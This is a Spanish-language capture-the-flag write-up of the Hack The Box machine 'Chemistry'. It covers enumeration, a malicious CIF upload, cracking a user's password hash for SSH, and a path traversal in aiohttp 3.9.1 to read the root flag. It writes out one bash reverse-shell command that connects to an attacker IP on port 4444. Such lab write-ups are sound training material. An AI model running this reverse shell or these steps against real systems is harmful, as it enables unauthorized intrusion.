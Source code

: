![alt text](image/Chemistry.png)

|  MAQUINA  |  OS   | DIFICULTAD |  PLATAFORMA  |      IP       |
| :-------: | :---: | :--------: | :----------: | :-----------: |
| CHEMISTRY | LINUX |   FACIL    | HACK THE BOX | CHEMISTRY.HTB |
## *Reconocimiento*

Con la IP de la maquina encontrada hacemos un escaneo de puertos de nmap y ver que información puedo encontrar. Encuentro un puerto SSH y un HTTP en un puerto diferente al habitual.

![alt text](image/chemi1.png)

Como ya conozco la dirección en donde se ubica la pagina web, busco investigar un poco más haciendo una enumeración de directorios.

![alt text](image/chemi2.png)
![alt text](image/chemi3.png)

Hay un directorio para registrarnos, ingreso mis credenciales y me envía hacia el panel de la cuenta

![alt text](image/chemi4.png)

En el panel hay una opción para subir archivos de extensión CIF. Este trae un ejemplo de un archivo con la extensión requerida.

![alt text](image/chemi5.png)
![alt text](image/chemi6.png)
## *Análisis de vulnerabilidades*

No conocía sobre este tipo de archivo así que comencé a buscar información y sus posibles vulnerabilidades y pude encontrar un payload que podía añadir al archivo de ejemplo que tuve recientemente.

![alt text](image/chemi7.png)
![alt text](image/chemi8.png)

Añado el payload para que al tratar de ver el archivo por medio del panel este cree una reverse shell, mientras eso ocurre yo estaré en escucha.

![alt text](image/chemi9.png)

```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.148/4444 0>&1'
```

![alt text](image/chemi10.png)
![alt text](image/chemi11.png)
## *Explotación*

Ya con el inicio de sesión por medio de app puedo revisar las carpetas que acompañan al usuario y encuentro una base de datos en la carpeta instance, levanto un servidor con python y obtengo la base de datos para obtener los datos e investigar.

![alt text](image/chemi12.png)
![alt text](image/chemi13.png)
![alt text](image/chemi14.png)

Indagando encontramos un perfil de nombre rosa, tendré en cuenta este nombre para posibles ataques.

![alt text](image/chemi15.png)

Dentro de la base de datos encontrada se ven muchos usuarios y contraseñas hasheadas, entre ellas veo el nombre de usuario rosa

![alt text](image/chemi16.png)

Al desencriptar el hash tenemos la contraseña de rosa y con ella entramos por el puerto ssh y obtenemos acceso.

![alt text](image/chemi17.png)
![alt text](image/chemi18.png)
## *Post-Explotación*

Con Netstat veo que había una pagina corriendo así que quise saber con que tecnologías había sido montada, el servidor aiohttp/3.9.1 tiene una vulnerabilidad de path traversal y comienzo a probar rutas para saber si en verdad la vulnerabilidad sigue existiendo.

![alt text](image/chemi19.png)
![alt text](image/chemi20.png)

Cambio la ruta hacia la carpeta root y su posible archivo root.txt

![alt text](image/chemi21.png)
